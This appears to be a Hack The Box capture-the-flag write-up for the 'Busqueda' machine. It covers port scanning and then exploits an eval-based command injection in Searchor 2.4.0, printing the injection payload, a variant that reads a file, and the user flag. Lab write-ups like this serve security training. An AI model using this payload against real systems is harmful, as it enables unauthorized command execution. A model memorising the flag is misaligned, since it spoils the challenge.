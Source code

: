 # Busqueda
## STEPS:

> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sVC 10.10.11.208 --min-rate 1000 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-24 06:54 PDT
Nmap scan report for 10.10.11.208
Host is up (0.022s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4fe3a667a227f9118dc30ed773a02c28 (ECDSA)
|_  256 816e78766b8aea7d1babd436b7f8ecc4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://searcher.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.75 seconds
```

Based from the result, we know the host is running a web application in Apache version 2.4.52.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/526c63f9-847f-47ed-bd77-601505d93479)


Looking at the footer, we know the webapp using Flask and searchor version 2.4.0 (which is outdated) and there are many documentation out there.
Telling that this version is vulnerable to **command injection**.

> Documenations

```
https://github.com/nexis-nexis/Searchor-2.4.0-POC-Exploit-
https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection
```

Reading one of the github, it seems the vuln is at:

> The blocked

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1a5046fd-3c43-4817-9098-589e27c710e5)


There's a eval usage, which allows us to inject bash command. But we can't just send --> `__import__('os').system('id')`, after tested the feature in normal way, seems we need to add `'` and wrap the python code with `str()`.

> TESTING NORMAL WAY

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/677c944e-abcb-4b1a-ae32-60ecc1d11f0c)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/651bc11c-53be-4a88-b50d-367ad49224d4)


> OUR PAYLOAD

```py
') + str(__import__('os').system('id')) #
```

What it will look like:

```py
url = eval(Engine.<some_engine>.search('') + str(__import__('os').system('id')) #', copy_url={copy}, open_web={open})")
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/60c5b8bd-f160-4eb2-a9b9-b206961c9dc4)

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/322d7a72-6ea5-414e-97de-030dedb402e3)


Long story short, I got the user.txt inside the /home/svc directory.

```
') + str(__import__('os').system('cd .. && cd .. && cd .. && cd home && cd svc && cat user.txt && ls -a')) #
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ce1079fb-52db-4f00-a420-1661b7804100)


## USER FLAG

```
d8ad3edaacebd00c00e4b7c6fbdfbb77
```




